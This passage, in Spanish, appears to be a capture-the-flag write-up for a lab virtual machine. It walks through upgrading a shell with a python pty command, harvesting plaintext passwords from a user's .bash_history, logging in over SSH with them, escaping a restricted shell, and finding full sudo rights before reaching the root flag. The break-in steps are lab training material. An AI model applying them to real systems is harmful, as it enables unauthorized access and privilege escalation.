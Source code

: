 > **``python -c 'import pty; pty.spawn("/bin/bash");'``**

Una vez adentro hay una tremenda cantidad de usuarios creados, el más importante por el momento fue **JKanode** que tenía un ``.bash_history`` con credenciales:

```console
id
whoami
ls -lah
pwd
ps aux
sshpass -p thisimypassword ssh JKanode@localhost
apt-get install sshpass
sshpass -p JZQuyIN5 peter@localhost
ps -ef
top
kill -9 3747
exit
```

Vamos a buscarlo a Peter...

>**``ssh peter@10.0.0.127``** con el password **JZQuyIN5** y entré perfecto. Lo malo es que caí a un Shell Restringido.

y de nuevo escapamos con el glorioso comando > **``python -c 'import pty; pty.spawn("/bin/bash");'``**

---

No tuve que enumerar mucho tiempo hasta que me di cuenta que el comando ``sudo -l`` arroja el siguiente resultado:

```console
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for peter: 
Matching Defaults entries for peter on red:
    lecture=always, env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User peter may run the following commands on red:
    (ALL : ALL) ALL
```
Osea que puedo correr todos los comandos que quiera con ``sudo``!!

---

### **Flag**

---
Dentro de la carpeta ``/root`` existe una archivo llamado ``flag.txt`` su contenido:

